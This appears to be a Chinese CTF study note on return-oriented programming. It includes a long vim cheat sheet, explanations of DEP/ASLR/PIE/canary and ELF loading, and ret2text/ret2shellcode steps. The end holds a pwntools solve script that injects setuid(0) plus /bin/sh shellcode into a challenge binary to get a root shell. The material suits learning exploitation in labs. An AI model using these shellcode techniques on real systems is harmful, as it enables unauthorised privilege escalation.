

# 解析ROP（返回导向编程）

[toc]

## ==ROP的执行过程示例：==


------


## ==一些有用的命令行操作：==

------

### 1.给文件赋予可执行权限：

```shell
chmod 777 +filename
```

这里的777权限指的是当前用户可以对相应的文件进行读取写入和执行的操作的权限，只有在对文件进行可执行操作后，文件才会被系统识别进行操作。

------

### 2.显示当前目录完整路径：

在当前目录下打开值终端执行

```shell
pwd
```

命令即可！

------

### 3.vim文件的一些相关指令：


------

#### **vim命令总结**

1.删除字符
 要删除一个字符，只需要将光标移到该字符上按下"x"。

2.删除一行
 删除一整行内容使用"dd"命令。删除后下面的行会移上来填补空缺。

3.删除换行符
 在Vim中你可以把两行合并为一行，也就是说两行之间的换行符被删除了：命令是"J"。

4.撤销
 如果你误删了过多的内容。显然你可以再输入一遍，但是命令"u" 更简便，它可以撤消上一次的操作。

5.重做
 如果你撤消了多次，你还可以用CTRL-R(重做)来反转撤消的动作。换句话说，它是对撤消的撤消。撤消命令还有另一种形式，"U"命令，它一次撤消对一行的全部操作。第二次使用该命令则会撤消前一个"U"的操作。用"u"和CTRL-R你可以找回任何一个操作状态。

6.追加
 "i"命令可以在当前光标之前插入文本。
 "a"命令可以在当前光标之后插入文本。
 "o"命令可以在当前行的下面另起一行，并使当前模式转为Insert模式。
 "O"命令(注意是大写的字母O)将在当前行的上面另起一行。

7.使用命令计数
 假设你要向上移动9行。这可以用"kkkkkkkkk"或"9k"来完成。事实上，很多命令都可以接受一个数字作为重复执行同一命令的次数。比如刚才的例子，要在行尾追加三个感叹号，当时用的命令是"a!!!"。另一个办法是用"3a!"命令。3说明该命令将被重复执行3次。同样，删除3个字符可以用"3x"。指定的数字要紧挨在它所要修饰的命令前面。

8.退出
 要退出Vim，用命令"ZZ"。该命令保存当前文件并退出Vim。

9.放弃编辑
 丢弃所有的修改并退出，用命令":q!"。用":e!"命令放弃所有修改并重新载入该文件的原始内容。

10.以Word为单位的移动
 使用"w"命令可以将光标向前移动一个word的首字符上；比如"3w"将光标向前移动3个words。"b"命令则将光标向后移动到前一个word的首字符上。
 "e"命令会将光标移动到下一个word的最后一个字符。命令"ge"，它将光标移动到前一个word的最后一个字符上。、

11.移动到行首或行尾
 "\$"命令将光标移动到当前行行尾。如果你的键盘上有一个键，它的作用也一样。"^"命令将光标移动到当前行的第一个非空白字符上。"0"命令则总是把光标移动到当前行的第一个字符上。键也是如此。" \$"命令还可接受一个计数，如"1\$"会将光标移动到当前行行尾，"2$"则会移动到下一行的行尾，如此类推。"0"命令却不能接受类似这样的计数，命令"^"前加上一个计数也没有任何效果。

12.移动到指定字符上
 命令"fx"在当前行上查找下一个字符x（向右方向），可以带一个命令计数"F"命令向左方向搜索。"tx"命令形同"fx"命令，只不过它不是把光标停留在被搜索字符上，而是在它之前的一个字符上。提示："t"意为"To"。该命令的反方向版是"Tx"。这4个命令都可以用";"来重复。以","也是重复同样的命令，但是方向与原命令的方向相反。

13.以匹配一个括号为目的移动
 用命令"%"跳转到与当前光标下的括号相匹配的那一个括号上去。如果当前光标在"("上，它就向前跳转到与它匹配的")"上，如果当前在")"上，它就向后自动跳转到匹配的"("上去.

14.移动到指定行
 用"G"命令指定一个命令计数，这个命令就会把光标定位到由命令计数指定的行上。比如"33G"就会把光标置于第33行上。没有指定命令计数作为参数的话, "G"会把光标定位到最后一行上。"gg"命令是跳转到第一行的快捷的方法。
 另一个移动到某行的方法是在命令"%"之前指定一个命令计数比如"50%"将会把光标定位在文件的中间. "90%"跳到接近文件尾的地方。
 命令"H","M","L",分别将光标跳转到第一行，中间行，结尾行部分。

15.告诉你当前的位置
 使用CTRL-G命令。"set number"在每行的前面显示一个行号。相反关闭行号用命令":set nonumber"。":set ruler"在Vim窗口的右下角显示当前光标位置。

16.滚屏
 CTRL-U显示文本的窗口向上滚动了半屏。CTRL-D命令将窗口向下移动半屏。一次滚动一行可以使用CTRL-E(向上滚动)和CTRL-Y(向下滚动)。要向前滚动一整屏使用命令CTRL-F。另外CTRL-B是它的反向版。"zz"命令会把当前行置为屏幕正中央，"zt"命令会把当前行置于屏幕顶端，"zb"则把当前行置于屏幕底端.

17.简单搜索
 "/string"命令可用于搜索一个字符串。要查找上次查找的字符串的下一个位置,使用"n"命令。如果你知道你要找的确切位置是目标字符串的第几次出现，还可以在"n"之前放置一个命令计数。"3n"会去查找目标字符串的第3次出现。
 "?"命令与"/"的工作相同，只是搜索方向相反."N"命令会重复前一次查找，但是与最初用"/"或"?"指定的搜索方向相反。
 如果查找内容忽略大小写，则用命令"set ignorecase", 返回精确匹配用命令"set noignorecase" 。

18.在文本中查找下一个word
 把光标定位于这个word上然后按下"*"键。Vim将会取当前光标所在的word并将它作用目标字符串进行搜索。"#"命令是"*"的反向版。还可以在这两个命令前加一个命令计数:"3*"查找当前光标下的word的第三次出现。

19.查找整个word
 如果你用"/the"来查找Vim也会匹配到"there"。要查找作为独立单词的"the"使用如下命令："/the\>"。"\>"是一个特殊的记法，它只匹配一个word的结束处。近似地，"\<"匹配到一个word的开始处。这样查找作为一个word的"the"就可以用:"/\"。

20.高亮显示搜索结果
 开启这一功能用":set hlsearch"，关闭这一功能：":set nohlsearch"。如果只是想去掉当前的高亮显示，可以使用下面的命令：":nohlsearch"(可以简写为noh)。

21.匹配一行的开头与结尾
  ^ 字符匹配一行的开头。$字符匹配一行的末尾。
  所以"/was$"只匹配位于一行末尾的单词was，所以"/^was"只匹配位于一行开始的单词was。

22.匹配任何的单字符
 .这个字符可以匹配到任何字符。比如"c.m"可以匹配任何前一个字符是c，后一个字符是m的情况，不管中间的字符是什么。

23.匹配特殊字符
 放一个反斜杠在特殊字符前面。如果你查找"ter。"，用命令"/ter\。"

24.使用标记
 当你用"G"命令从一个地方跳转到另一个地方时，Vim会记得你起跳的位置。这个位置在Vim中是一个标记。使用命令" `` "可以使你跳回到刚才的出发点。
 ``命令可以在两点之间来回跳转。CTRL-O命令是跳转到你更早些时间停置光标的位置(提示:O意为older). CTRL-I则是跳回到后来停置光标的更新的位置(提示：I在键盘上位于O前面)。
  注:使用CTRL-I 与按下键一样。

25.具名标记
  命令"ma"将当前光标下的位置名之为标记"a"。从a到z一共可以使用26个自定义的标记。要跳转到一个你定义过的标记，使用命令" `marks "marks就是定义的标记的名字。命令" 'a "使你跳转到a所在行的行首，" `a "会精确定位a所在的位置。命令：":marks"用来查看标记的列表。
 命令delm！删除所有标记。

26.操作符命令和位移
 "dw"命令可以删除一个word，"d4w"命令是删除4个word，依此类推。类似有"d2e"、"d$"。此类命令有一个固定的模式：操作符命令+位移命令。首先键入一个操作符命令。比如"d"是一个删除操作符。接下来是一个位移命。比如"w"。这样任何移动光标命令所及之处，都是命令的作用范围。

27.改变文本
 操作符命令是"c"，改变命令。它的行为与"d"命令类似，不过在命令执行后会进入Insert模式。比如"cw"改变一个word。或者，更准确地说，它删除一个word并让你置身于Insert模式。
 "cc"命令可以改变整行。不过仍保持原来的缩进。
 "c$"改变当前光标到行尾的内容。
 快捷命令：x 代表dl(删除当前光标下的字符)
      X 代表dh(删除当前光标左边的字符)
      D 代表d$(删除到行尾的内容)
      C 代表c$(修改到行尾的内容)
      s 代表cl(修改一个字符)
      S 代表cc(修改一整行)
 命令"3dw"和"d3w"都是删除3个word。第一个命令"3dw"可以看作是删除一个word的操作执行3次；第二个命令"d3w"是一次删除3个word。这是其中不明显的差异。事实上你可以在两处都放上命令记数，比如，"3d2w"是删除两个word，重复执行3次，总共是6个word。

28.替换单个字符
 "r"命令不是一个操作符命令。它等待你键入下一个字符用以替换当前光标下的那个字符。"r"命令前辍以一个命令记数是将多个字符都替换为即将输入的那个字符。要把一个字符替换为一个换行符使用"r"。它会删除一个字符并插入一个换行符。在此处使用命令记数只会删除指定个数的字符："4r"将把4个字符替换为一个换行符。

29.重复改动
 "."命令会重复上一次做出的改动。"."命令会重复你做出的所有修改，除了"u"命令CTRL-R和以冒号开头的命令。"."需要在Normal模式下执行，它重复的是命令，而不是被改动的内容，

30.Visual模式
 按"v"可以进入Visual模式。移动光标以覆盖你想操纵的文本范围。同时被选中的文本会以高亮显示。最后键入操作符命令。

31.移动文本
 以"d"或"x"这样的命令删除文本时，被删除的内容还是被保存了起来。你还可以用p命令把它取回来。"P"命令是把被去回的内容放在光标之前，"p"则是放在光标之后。对于以"dd"删除的整行内容，"P"会把它置于当前行的上一行。"p"则是至于当前行的后一行。也可以对命令"p"和"P"命令使用命令记数。它的效果是同样的内容被取回指定的次数。这样一来"dd"之后的"3p"就可以把被删除行的3 份副本放到当前位置。
 命令"xp"将光标所在的字符与后一个字符交换。

32.复制文本（VIM编辑器内复制）
 "y"操作符命令会把文本复制到一个寄存器3中。然后可以用"p"命令把它取回。因为"y"是一个操作符命令，所以你可以用"yw"来复制一个word. 同样可以使用命令记数。如下例中用"y2w"命令复制两个word，"yy"命令复制一整行，"Y"也是复制整行的内容，复制当前光标至行尾的命令是"y$"。

33.文本对象
 "diw" 删除当前光标所在的word(不包括空白字符) "daw" 删除当前光标所在的word(包括空白字符)

34.快捷命令
 x 删除当前光标下的字符("dl"的快捷命令)
 X 删除当前光标之前的字符("dh"的快捷命令)
 D 删除自当前光标至行尾的内容("d$"的快捷命令)
 dw 删除自当前光标至下一个word的开头
 db 删除自当前光标至前一个word的开始
 diw 删除当前光标所在的word(不包括空白字符)
 daw 删除当前光标所在的word(包括空白字符)
 dG 删除当前行至文件尾的内容
 dgg 删除当前行至文件头的内容
 如果你用"c"命令代替"d"这些命令就都变成更改命令。使用"y"就是yank命令，如此类推。

35.编辑另一个文件
 用命令":edit foo.txt"，也可简写为":e foo.txt"。

36.文件列表
 可以在启动Vim时就指定要编辑多个文件，用命令"vim one.c two.c three.c"。Vim将在启动后只显示第一个文件，完成该文件的编辑后，可以用令：":next"或":n"要保存工作成果并继续下一个文件的编辑，命令：":wnext"或":wn"可以合并这一过程。

37.显示当前正在编辑的文件
 用命令":args"。

38.移动到另一个文件
 用命令":previous" ":prev"回到上一个文件,合并保存步骤则是":wprevious" ":wprev"。要移到最后一个文件":last",到第一个":first".不过没有":wlast"或者":wfirst"这样的命令。可以在":next"和":previous"命令前面使用一个命令计数。

39.编辑另一个文件列表
 不用重新启动Vim，就可以重新定义一个文件列表。命令":args five.c six.c seven.h"定义了要编辑的三个文件。

39.自动存盘
 命令":set autowrite","set aw"。自动把内容写回文件: 如果文件被修改过，在每个:next、:rewind、:last、:first、:previous、:stop、:suspend、:tag、:!、:make、CTRL-] 和 CTRL-^命令时进行。
 命令":set autowriteall","set awa"。和 'autowrite' 类似，但也适用于":edit"、":enew"、":quit"、":qall"、":exit"、":xit"、":recover" 和关闭 Vim 窗口。置位本选项也意味着 Vim 的行为就像打开 'autowrite' 一样。

40.切换到另一文件
 要在两个文件间快速切换，使用CTRL-^。

41.文件标记
 以大写字母命名的标记。它们是全局标记，它们可以用在任何文件中。比如，正在编辑"fab1.[Java](http://lib.csdn.net/base/javaee)",用命令"50%mF"在文件的中间设置一个名为F的标记。然后在"fab2.java"文件中，用命令"GnB"在最后一行设置名为B的标记。在可以用"F"命令跳转到文件"fab1.java"的半中间。或者编辑另一个文件，"'B"命令会再把你带回文件"fab2.java"的最后一行。
 要知道某个标记所代表的位置是什么，可以将该标记的名字作为"marks"命令的参数":marks M"或者连续跟上几个参数":marks MJK"
 可以用CTRL-O和CTRL-I可以跳转到较早的位置和靠后的某位置。

42.查看文件
 仅是查看文件，不向文件写入内容，可以用只读形式编辑文件。用命令：
vim -R file。如果是想强制性地避免对文件进行修改，可以用命令：
vim -M file。

43.更改文件名
 将现有文件存成新的文件，用命令":sav(eas) move.c"。如果想改变当前正在编辑的文件名，但不想保存该文件，就可以用命令：":f(ile) move.c"。

44.分割一个窗口
 打开一个新窗口最简单的办法就是使用命令：":split"。CTRL-W 命令可以切换当前活动窗口。

45.关闭窗口
 用命令："close".可以关闭当前窗口。实际上,任何退出文件编辑的命令":quit"和"ZZ"都会关闭窗口，但是用":close"可以阻止你关闭最后一个Vim，以免以意外地整个关闭了Vim。

46.关闭除当前窗口外的所有其他窗口
 用命令：":only",关闭除当前窗口外的所有其它窗口。如果这些窗口中有被修改过的，你会得到一个错误信息，同时那个窗口会被留下来。

47.为另一个文件分隔出一个窗口
 命令":split two.c"可以打开第二个窗口同时在新打开的窗口中开始编辑作为
参数的文件。如果要打开一个新窗口并开始编辑一个空的缓冲区，使用命令:":new"。

48.垂直分割
 用命令":vsplit或：:vsplit two.c"。同样有一个对应的":vnew"命令，用于垂直分隔窗口并在其中打开一个新的空缓冲区。

49.切换窗口
 CTRL-W h 到左边的窗口
 CTRL-W j 到下面的窗口
 CTRL-W k 到上面的窗口
 CTRL-W l 到右边的窗口
 CTRL-W t 到顶部窗口
 CTRL-W b 到底部窗口

50.针对所有窗口操作的命令
 ":qall"放弃所有操作并退出，":wall"保存所有，":wqall"保存所有并退出。

51.为每一个文件打开一个窗口
 使用"-o"选项可以让Vim为每一个文件打开一个窗口：
"vim -o one.txt two.txt three.txt"。

52.使用vimdiff查看不同
 "vimdiff main.c~ main.c",另一种进入diff模式的办法可以在Vim运行中操作。编辑文件"main.c"，然后打开另一个分隔窗口显示其不同:
 ":edit main.c"
 ":vertical diffpatch main.c.diff"。
53.页签
  命令":tabe(dit) thatfile"在一个窗口中打开"thatfile"，该窗口占据着整个的Vim显示区域。命令":tab split/new"结果是新建了一个拥有一个窗口的页签。以用"gt"命令在不同的页签间切换。

------

#### ***==说明：==***

以下黑色为vi和vim均有的一般功能，而红色为Vim（Vi Improved）所特有功能。Vim一般的Unix和[Linux](http://lib.csdn.net/base/linux)下均有安装。

- #### 三种状态

  Command： 任何输入都会作为编辑命令，而不会出现在屏幕上，任何输入都引起立即反映

  Insert： 任何输入的数据都置于编辑寄存器，按ESC，可跳回command方式

  Escape： 以“：”或者“/”为前导的指令，出现在屏幕的最下一行，任何输入都被当成特别指令。

- #### 离开vi

  :q!  离开vi，并放弃刚在缓冲区内编辑的内容。

  :wq  将缓冲区内的资料写入磁盘中，并离开vi。

  :x  同wq。

  （注意—— :X 是文件加密，一定要与:x存盘退出相区别）

- #### 进入输入模式

  a (append) 由游标之后加入资料。

  A  由该行之末加入资料。

  i (insert)  由游标之前加入资料。

  I  由该行之首加入资料。

  o (open)  新增一行于该行之下供输入资料之用。

  O  新增一行於该行之上供输入资料之用。

- #### 删除与修改

  x  删除游标所在该字元。

  X  删除游标所在之前一字元。

  r  用接於此指令之后的字元取代(replace)游标所在字元。如：ra将游标所在字元以 a 取代之。

  R  进入取代状态，直到< ESC >为止。

  s  删除游标所在之字元，并进入输入模式直到< ESC >。

  S  删除游标所在之该行资料，并进入输入模式直到< ESC >。

- #### 光标的移动

  m< a-z > 设置书签< a-z >

  ‘< a-z > 移至书签< a-z >处

  0  移至该行之首

  $  移至该行之末。

  e  移动到下个字的最後一个字母

  w  移动到下个字的第一个字母。

  b  移动到上个字的第一个字母。

  ^  移至该行的第一个字元处。

  H  移至视窗的第一行。

  M  移至视窗的中间那行。

  L  移至视窗的最后一行。

  G  移至该文件的最后一行。

  \+ 移至下一列的第一个字元处。

  \-  移至上一列的第一个字元处。

  :n  移至该文件的第 n 列。

  n+  移至游标所在位置之后的第 n 列。

  n-  移至游标所在位置之前的第 n 列。

  < Ctrl >< g > 显示该行之行号、文件名称、文件中最末行之行号、游标所在行号占总行号之百分比。

- #### (Vim) 光标移动基本用法小解：

  (这只要组合上边的功能就可以明白了，不用再一一讲解了吧！)
  ge   b  w     e
  ←  ←  ---→    --→
  This is-a line, with special/separated/words (and some more).
  ←- ←--  -----------------→   ---→
  GE  B    W   E

- #### 视窗的移动

  Ctrl+f 视窗往下卷一页。

  Ctrl+b 视窗往上卷一页。

  Ctrl+d 视窗往下卷半页。

  Ctrl+u 视窗往上卷半页。

  Ctrl+e 视窗往下卷一行。

  Ctrl+y 视窗往上卷一行。

- #### 剪切、复制、删除

  Operator + Scope = command

  - ##### Operator

    d  剪切

    y  复制。

    p  粘帖，与 d 和 y 配和使用。可将最后d或y的资料放置於游标所在位置之行列下。

    c  修改，类似delete与insert的组和。删除一个字组、句子等之资料，并插入新建资料。

- #### Scope

  e  由游标所在位置至该字串的最后一个字元。

  w  由游标所在位置至下一个字串的第一个字元。

  b  由游标所在位置至前一个字串的第一个字元。

  $  由游标所在位置至该行的最后一个字元。

  0  由游标所在位置至该行的第一个字元。

- #### 整行动作

  dd  删除整行。

  D  以行为单位，删除游标后之所有字元。

  cc  修改整行的内容。

  yy  使游标所在该行复制到记忆体缓冲区。

- #### 取消前一动作(Undo)

  u  恢复最后一个指令之前的结果。

  U  恢复游标该行之所有改变。

  (vim) u  可以多次撤消指令，一次撤消一个操作，直至本次操作开始为止。

  (vim) Ctrl+r 可以恢复撤消前内容，按多次可恢复多次。

- #### 查找与替换

  /字串  往游标之后寻找该字串。

  ?字串  往游标之前寻找该字串。

  n  往下继续寻找下一个相同的字串。

  N  往上继续寻找下一个相同的字串。

  %  查找“(”，“)”，“{”，“}”的配对符。

  s  搜寻某行列范围。

  g  搜寻整个编辑缓冲区的资料。

  :1,$s/old/new/g 将文件中所有的『old』改成『new』。

  :10,20s/^/ / 将第10行至第20行资料的最前面插入5个空白。

  (vim) 

  /字符串  后边输入查询内容可保存至缓冲区中，可用↑↓进行以往内容选择。

  另外：将光标移动在选定单词下方按*，则可以选中此单词作为查询字符，可以避免输入一长串字符的麻烦。

- #### (vim) 大小写替换

  首先用按v开启选择功能，然后用↑↓←→键来选定所要替换的字符，若是小写变大写，则按U;反之按u;

  如果是选择单词，则可以在按v后，按w，最后按U/u,这样就可以将字符随意的改变大小写了，而不用删除后重新敲入。

- #### 资料的连接

  J  句子的连接。将游标所在之下一行连接至游标该行的后面。

- #### 环境的设定

  :set all 可设置的环境变量列表
  :set  环境变量的当前值
  :set nu  设定资料的行号。
  :set nonu 取消行号设定。
  :set ai  自动内缩。
  :set noai  取消自动内缩。
  (vim) 
  :set ruler 会在屏幕右下角显示当前光标所处位置，并随光移动而改变，占用屏幕空间较小，使用也比较方便，推荐使用。
  :set hlsearch 在使用查找功能时，会高亮显示所有匹配的内容。
  :set nohlsearch 关闭此功能。
  :set incsearch 使Vim在输入字符串的过程中，光标就可定位显示匹配点。
  :set nowrapscan 关闭查找自动回环功能，即查找到文件结尾处，结束查找；默认状态是自动回环

- #### ex指令

  - ##### 读写资料

    :10,20w test 将第10行至第20行的资料写入test文件。

    :10,20w>>test 将第10行至第20行的资料加在test文件之后。

    :r test  将test文件的资料读入编辑缓冲区的最后。

    :e [filename] 编辑新的文件。

    :e! [filename] 放弃当前修改的文件，编辑新的文件。

    :sh  进入shell环境，使用exit退出，回到编辑器中。

    :!cmd 运行命令cmd后，返回到编辑器中。

  - ##### 删除、复制及搬移

    :10,20d  删除第10行至第20行的资料。

    :10d  删除第10行的资料。

    :%d  删除整个编辑缓冲区。

    :10,20co30 将第10行至第20行的资料复制至第30行之后。

    :10,20mo30 将第10行至第20行的资料搬移至第30行之后。

[vim常用命令总结 （转) - yjig - 博客园 (cnblogs.com)](https://www.cnblogs.com/yangjig/p/6014198.html)

------

## ==ROP攻防的演进==

### `ret2shellcode`$\leftrightarrow$`DEP`


开启`DEP`(数据执行保护)后：
对于`ret2shellcode`这样的将恶意代码注入到内存中执行的操作，为相应的内存段开启`DEP`可以解决这个问题

> #### DEP 被广泛采用后，代码注入攻击是否还可能
>
> - 可能的代码注入点 —— de-protecting memory
>   - 内存页的权限可以通过mprotect() 系统调用改变，如果攻击者能让程序执行以某些特定参数执行mprotect() 系统调用，那么就可 以修改某段内存页的权限（使其可执行）
>   - 可能的攻击方法
>     - 通过 ROP 调用 mprotect() 为某段内存页添加可执行权限
>     - 在这段内存页中注入 shellcode 并执行 
>
> - 可能的代码注入点 —— JIT (Just in Time Compilation)
>   - 即时编译需要在程序运行过程中生成代码并执行，因此 
>     - 代码生成要求内存页必须可写
>     - 代码执行要求内存页必须可执行
>   - 在存在即时编译机制的程序中，可写可执行的内存页是很常见的
>     - 现代浏览器中的 WebAssembly 引擎都实现了 JIT 机制

### `ret2xxx`$\leftrightarrow$`ASR`

> #### ELF加载过程
>
> ELF（Executable and Linkable Format）是现代 Linux 系统中广泛使用的可执行文件格式。当 ELF 可执行文件加载到内存时，操作系统通过一系列步骤将其转换为可以执行的进程。以下是详细的加载过程说明：
>
> ---
>
> ##### **1. ELF 可执行文件的基本结构**
> 一个 ELF 文件通常分为以下部分：
>
> - **ELF Header**：描述文件的基本信息，如文件类型（可执行文件、共享库或可重定位文件）、入口点地址、段表和节表的位置等。
> - **Program Header Table**：描述运行时的内存布局，指示哪些部分需要加载到内存中（如代码段、数据段等）。
> - **Section Header Table**：描述编译时的节信息（通常供链接器使用），包括符号表、重定位表等。
> - **Segments（段）**：
>   - **Text Segment**：存放程序的机器代码（只读，可执行）。
>   - **Data Segment**：存放全局变量和已初始化数据（可读、可写）。
>   - **BSS Segment**：存放未初始化的全局变量（在运行时初始化为 0）。
>
> ---
>
> ##### **2. ELF 加载到内存的过程**
>
> 以下是 ELF 文件加载到内存并转换为可运行进程的步骤：
>
> - ###### (1) 检查 ELF 文件的有效性
>
>   - **魔数检查**：操作系统会检查 ELF 文件的前 4 个字节是否为 `\x7FELF`，以确认它是一个合法的 ELF 文件。
>
>   - **兼容性检查**：检查文件架构（32 位或 64 位）、操作系统 ABI（如 Linux）、文件类型（可执行文件或共享库）等是否与当前系统兼容。
>
>
> - ###### (2) 创建进程地址空间
>   操作系统为新进程创建一个虚拟地址空间，包括：
>   - 栈（Stack）：用于函数调用和局部变量。
>   - 堆（Heap）：用于动态分配的内存。
>   - 内核空间：映射内核相关的结构。
>   - 程序的代码段、数据段等。
>
> - ###### (3) 分析 Program Header Table
>
>   > **ELF 文件以段（Segment）为基本加载单位**
>   > 加载器会读取 ELF 文件的 **Program Header Table**，其中包含描述段的多个条目。
>
>   每个条目包含以下信息：
>
>   - 段的类型（如 `LOAD` 表示需要加载到内存中）。
>   - 段在文件中的偏移量和长度。
>   - 段在内存中的目标地址。
>   - 段的权限（如只读、可写、可执行等）。
>
> - ###### (4) 将段映射到内存
>
>   根据 Program Header Table，将段加载到内存中的相应位置：
>
>   - **Text Segment**（代码段）：加载为只读和可执行。
>   - **Data Segment**（已初始化数据）：加载为可读和可写。
>   - **BSS Segment**（未初始化数据）：分配内存并初始化为零。
>
>   操作系统通常使用 **mmap** 系统调用将段映射到内存中。
>
> - ###### (5) 动态链接（如果需要）
>
>   如果 ELF 文件依赖动态库，加载器会通过动态链接器（`ld.so`）加载所需的共享库，并完成符号解析和重定位。
>   依赖库的加载地址通常由 ASLR 随机化。
>
> - ###### (6) 设置入口点
>
>   加载器将程序计数器（`PC` 或 `EIP`/`RIP` 寄存器）设置为 ELF Header 中指定的入口点地址（`e_entry` 字段）。
>
>   程序的执行从入口点开始。
>
> - ###### (7) 初始化进程的环境
>
>   设置进程的初始栈，包括：
>
>   - 命令行参数（`argv`）。
>   - 环境变量（`envp`）。
>   - ELF 辅助向量（传递系统相关信息，如内核版本、内存页大小等）。
>
>   设置程序的动态链接相关结构（如全局偏移表 GOT 和动态段 DT 表）。
>
> - ###### (8) 切换到用户模式
>
>   加载完成后，操作系统将进程切换到用户模式，从入口点开始执行程序。

#### `ASR`=`ASLR`+`PIE`

##### 介绍

| **特性**     | **ASLR**(动态部分)                                 | **PIE**(静态部分)                                            |
| ------------ | -------------------------------------------------- | ------------------------------------------------------------ |
| **目标**     | 随机化**==内存页==**布局，提高攻击难度             | 支持主程序随机加载地址，增强 ASLR 效果                       |
| **实现层级** | 操作系统级别                                       | 程序编译级别                                                 |
| **作用范围** | 堆、栈、动态库等内存区域；主程序需配合 PIE         | 主程序代码段（结合 ASLR 实现随机化）                         |
| **依赖性**   | 无需修改程序代码                                   | 必须支持位置无关代码                                         |
| **主要优势** | 增加所有内存区域的随机化<br />【堆、栈、动态库等】 | 实现**ELF 可执行程序加载至内存镜像的相应段**的地址随机化<br />【代码段、数据段、BSS段等】 |
| **适用条件** | 操作系统必须支持 ASLR                              | 编译时需启用 PIE 支持                                        |


注意：ASLR随机化的最小单元是内存页！！！（熵值通常为12）

##### 区别展示

|                         ASLR(no-PIE)                         |                           ASLR+PIE                           |
| :----------------------------------------------------------: | :----------------------------------------------------------: |
|  |  |

#### 实例

##### `ret2libc`$\leftrightarrow$`ASLR`

##### `ret2text`$\leftrightarrow$`PIE`

### `ret2xxx`$\leftrightarrow$`canary`


## ==*`ret2text`==

### Step1:识别[保护机制]

**先检查保护机制：checksec** 


#### ==<u>常见的保护机制：</u>==

- **canary（栈保护)**（金丝雀防护）

  ​	当启用栈保护后，函数开始执行的时候会先往栈底插入 cookie信息，当函数真正返回的时候会验证 cookie 信息是否合法 (栈帧销毁前测试该值是否被改变)，如果不合法就停止程序运行(栈溢出发生)。攻击者在覆盖返回地址的时候往往也会将 cookie 信息给覆盖掉，导致栈保护检查失败而阻止 shellcode的执行，避免漏洞利用成功。在 Linux 中我们将 cookie 信息称为 Canary。

- **PIE**

  ​	如果程序开启了PIE保护的话，在每次加载程序时都变换加载地址。

- **NX(DEP)**

  ​	NX即No-eXecute（不可执行）的意思，限制一块内存区域不可执行。

- **ASLR**

  ​	ASLR（地址随机化）是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的。

  ​	但是，地址随机化不是对所有模块和内存区都进行随机化！虽然libc、栈、堆的加载位置被随机化，但主镜像不会。


### Step2:查找漏洞所在位置（查找可入侵函数）

​	溢出，字面上就是往容器里加的水超过了水的容积，简单讲，栈溢出就是向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，造成溢出。**发生栈溢出的条件**：程序必须向栈上写入数据。写入的数据大小没有被良好地控制。**利用方式**：覆盖程序的返回地址为攻击者所控制的地址，比如该地址为执行shellcode的地址shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，可以让攻击者获得shell，利用pwntools可自动生成，等用到再说。可能造成栈溢出的函数。

​	**可能造成栈溢出的函数有：gets,scanf,vscanf,sprintf,strcpy,strcat,bcopy,read**


### Step3:观察该程序在执行过程中是否直接调用了system(/bin/sh)，即后门函数

​	在getshell函数中，可以看到使用了该命令：


### Step4:利用相关知识构造payload并攻击即可

​	即：将该函数的首地址找到并将其写入上个函数栈帧的ret_address(也就是这里的gets溢出函数调用后的返回地址)即可！！！


------


## ==*`ret2shellcode`==

- shellcode的含义：

  ​	在栈溢出的攻击技术中通常是要控制函数的返回地址到自己想要的地方执行自己想要执行的代码。ret2shellcode代表返回到shellcode中即控制函数的返回地址到预先设定好的shellcode区域中去执行shellcode代码，这是非常危险的。


### Step1:识别

- ##### **先检查保护机制：checksec** 

  

  可以看到，正是由于该程序开启了RWX段，即可读，可写，可执行段，我们才能在栈上写入我们自己编写的执行system(/bin/sh)的代码，这道题才可用ret2shellcode解决。

- ##### 进一步通过IDA反汇编分析后我们可以发现该题并没有后门函数；

- ##### 进一步确认是否属于ret2shellcode

  1. 使用gdb调试中的vmmap命令查看RWX段：

  2. 在IDA上查看溢出区是否处于该段中


### Step2:构造system(/bin/sh)

- #### 对于32位程序：

  python里的pwn包里的函数：

  ```python
  shellcraft.sh()
  ```

  便可构造出相关代码：

  然后使用asm()函数将上面的代码转化为机器码：

- #### 对于64位程序：

  先使其识别为64位程序：

  ```python
  context.arch = "amd64"
  ```

  构造64位的shell代码：

  ```python
  shellcraft.amd64.sh()
  ```

  然后使用asm()函数将上面的代码转化为机器码：

  ```python
  asm(shellcraft.amd64.sh())
  ```
  
- #### ==有时遇到权限不足的问题：==

  > 可使用`setuid(0)`尝试提权

  - **对于32位程序：**

    构造`setuid(0)`的机器码：`asm(shellcraft.i386.linux.setuid(0))`

  - **对于64位程序：**

    构造`setuid(0)`的机器码：`asm(shellcraft.amd64.linux.setuid(0))`


### `shellcode`的艺术

#### ch1：

> 二进制文件：[shellcode_ch1](./2_解析ROP（返回导向编程）.assets/shellcode_ch1)
> C源码：[shellcode_ch1](./2_解析ROP（返回导向编程）.assets/shellcode_ch1.c)

wp：

```python
from pwn import *
import os
os.chdir("/challenge")

context.arch = 'amd64'

file_name = './1-1-1'

io = process(file_name)

str = io.recvuntil("from stdin.\n")
print(str.decode('utf-8'))

payload = asm(shellcraft.amd64.linux.setuid(0) + shellcraft.amd64.sh())
# payload = asm(shellcraft.i386.linux.setuid(0) + shellcraft.amd64.sh())

io.sendline(payload)

io.interactive()
```

#### ch2：

> 二进制文件：[shellcode_ch2](./2_解析ROP（返回导向编程）.assets/shellcode_ch2)
